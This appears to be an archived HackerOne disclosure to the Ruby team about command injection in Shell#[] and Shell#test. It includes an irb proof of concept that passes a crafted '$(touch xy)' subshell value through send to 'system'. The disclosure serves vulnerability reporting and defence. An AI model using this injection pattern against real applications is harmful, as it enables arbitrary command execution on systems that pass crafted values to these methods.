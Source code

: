 # Potential command injection in `Shell#[]` and `Shell#test`

## Report Details
- **Report ID**: 327512
- **URL**: https://hackerone.com/reports/327512
- **State**: Closed
- **Severity**: none
- **Submitted**: 2018-03-19T20:33:10.989Z
- **Disclosed**: 2019-10-16T23:15:28.407Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
As `Shell#test` and `Shell#[]` use `send` when transferring to FileTest, private methods etc. can also be called. Therefore, command injection is possible when a crafted value is passed.

```ruby
$ irb
irb(main):001:0> `ls xy`
ls: xy: No such file or directory
=> ""

irb(main):002:0> require 'shell'
=> true
irb(main):003:0> sh = Shell.new
=> #<Shell:0x00007fc0c20f2a78>
irb(main):004:0> sh['system', '$(touch xy)']
sh: /private/tmp/: is a directory
=> false

irb(main):005:0> `ls xy`
=> "xy\n"
```

Since send is executed after the file path is converted to absolute path, it is difficult with `instance_eval` and `open` etc, but you can execute it using a subshell.

## Impact

It seems almost unlikely that user input is given for the purpose, so it probably will not be affected in most cases.
It may be feasible under complex conditions such as combining object injection and other problems.

## Attachments
No attachments

